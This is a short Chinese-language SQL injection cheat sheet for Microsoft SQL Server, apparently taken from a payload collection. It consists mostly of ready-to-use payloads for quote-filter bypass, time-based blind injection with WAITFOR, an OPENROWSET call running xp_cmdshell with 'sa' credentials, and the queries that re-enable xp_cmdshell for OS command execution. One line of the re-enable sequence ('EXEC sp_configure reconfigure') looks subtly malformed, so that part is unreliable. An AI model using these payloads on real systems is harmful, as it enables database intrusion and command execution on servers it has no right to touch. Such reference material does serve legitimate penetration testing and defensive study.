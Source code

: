 
#### 引号绕过

```text
SELECT * FROM Users WHERE username = CHAR(97) + CHAR(100) + CHAR(109) + CHAR(105) + CHAR(110)
```

#### 字符串连接

```text
SELECT CONCAT('a','a','a'); (SQL SERVER 2012)
SELECT 'a'+'d'+'mi'+'n';
```

#### 条件声明

```text
IF
CASE


Examples:
IF 1=1 SELECT 'true' ELSE SELECT 'false';
SELECT CASE WHEN 1=1 THEN true ELSE false END;
```

#### 定时

```text
WAITFOR DELAY 'time_to_pass';
WAITFOR TIME 'time_to_execute';

Example:
IF 1=1 WAITFOR DELAY '0:0:5' ELSE WAITFOR DELAY '0:0:0';
```

#### OPENROWSET攻击

```text
SELECT * FROM OPENROWSET('SQLOLEDB', '127.0.0.1';'sa';'p4ssw0rd', 'SET FMTONLY OFF execute master..xp_cmdshell "dir"');
```

#### 命令执行

包含一个名为xp\_cmdshell的扩展存储过程，可用于执行操作系统命令。

```text
EXEC master.dbo.xp_cmdshell 'cmd';
```

从MSSQL 2005及更高版本开始，xp\_cmdshell在默认情况下处于禁用状态，但可以通过以下查询来激活：

```text
EXEC sp_configure 'show advanced options', 1
EXEC sp_configure reconfigure
EXEC sp_configure 'xp_cmdshell', 1
EXEC sp_configure reconfigure
```
